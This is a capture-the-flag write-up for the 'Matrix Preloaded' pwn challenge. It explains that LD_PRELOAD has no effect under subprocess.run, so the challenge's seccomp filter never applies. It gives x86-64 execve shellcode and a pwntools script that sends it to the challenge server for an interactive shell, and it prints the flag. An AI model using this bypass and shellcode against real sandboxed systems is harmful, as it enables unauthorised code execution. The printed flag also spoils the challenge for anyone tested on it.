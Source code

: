 https://ctftime.org/event/2234/

# Matrix Preloaded ~ PWN

We’ll let you run any code you wish, Mr. Anderson. We trust that you won’t do anything irresponsible.

nc 158.178.197.18 39909

https://dl.1753ctf.com/matrix-preloaded?s=Dgr59R5h

## Solution

When invoked with `subprocess.run` the `LD_PRELOAD` directive has no effect. As a result the seccomp filter doesn't apply and you can use any syscalls.

Somewhat unusually we must supply an elf rather than shellcode.

```
; nasm -felf64 shellcode.asm && ld shellcode.o -o shellcode

section .text
global _start

_start:
    push rax
    xor rdx, rdx
    mov rbx, 0x68732f2f6e69622f
    push rbx
    push rsp
    pop rdi
    mov al, 59
    syscall
```

```
from pwn import *
import struct

REMOTE_IP = "158.178.197.18"
REMOTE_PORT = 39909

p = remote(REMOTE_IP, REMOTE_PORT)

with open("./shellcode", "rb") as f:
    shellcode = f.read()

p.send(struct.pack('!H', len(shellcode)))

p.sendline(shellcode)

p.clean()

p.interactive()
```

After getting the shell simply `cat ./flag`.

## Flag
`1753c{there_is_no_preload_theres_just_ld_linux_x86_64_so_2}`
